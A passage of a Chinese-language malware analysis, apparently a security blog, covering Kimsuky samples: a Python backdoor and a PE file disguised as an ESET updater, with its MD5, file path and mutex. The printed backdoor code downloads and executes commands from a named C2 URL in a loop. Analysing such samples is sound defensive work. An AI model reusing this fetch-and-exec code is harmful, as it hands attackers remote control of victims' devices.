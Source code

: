 ```



def ExecNewCmd():
    exec(urllib2.urlopen(urllib2.Request('http://crphone.mireene.com/plugin/editor/Templates/filedown.php?name=new')).read())



def SpyLoop():
    while True:
        CollectData()
        ExecNewCmd()
        time.sleep(300)

main_thread = threading.Thread(target=SpyLoop)
main_thread.start()
```

最后的这个python代码起到了一个后门的作用<br>
包括CollectData手机信息，ExecNewCmd执行C2下发的新指令、SpyLoop循环调用。

这里的逻辑其实和最开始分析的powershell后门有异曲同工之妙

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01cd44893bada6e646.png)

另外，此样本中用到的域名，还是和上一类样本相同，属于使用了第三方的托管域名。猜测此类域名在后续的新样本中应该不会沿用。

### <a class="reference-link" name="%E6%A8%A1%E4%BB%BF%E7%B1%BBPE%E5%88%86%E6%9E%90"></a>模仿类PE分析

KimSuky还有一类样本，会模仿正常软件以消除用户的戒备心诱导用户执行。<br>
样本MD5:ae986dd436082fb9a7fec397c8b6e717<br>
样本生成时间：2020年-04-25

该样本是模仿了杀毒软件eset的更新程序：

[![](https://p5.ssl.qhimg.com/t01f9cd25fe1c0d68a6.png)](https://p5.ssl.qhimg.com/t01f9cd25fe1c0d68a6.png)

样本运行后，会弹框提示用户，杀软更新完成，用户计算机目前处于安全状态

[![](https://p0.ssl.qhimg.com/t01ecdbd91d67602538.png)](https://p0.ssl.qhimg.com/t01ecdbd91d67602538.png)

样本运行后，会将自身复制到%appdata%目录下并重命名为:eset_updata.exe

[![](https://p4.ssl.qhimg.com/t01fccc704644aedab4.png)](https://p4.ssl.qhimg.com/t01fccc704644aedab4.png)

此样本会尝试创建一个名为&lt;GoogleUpdate_01&gt;的互斥体

[![](https://p4.ssl.qhimg.com/t011f231f9c12e796a4.png)](https://p4.ssl.qhimg.com/t011f231f9c12e796a4.png)
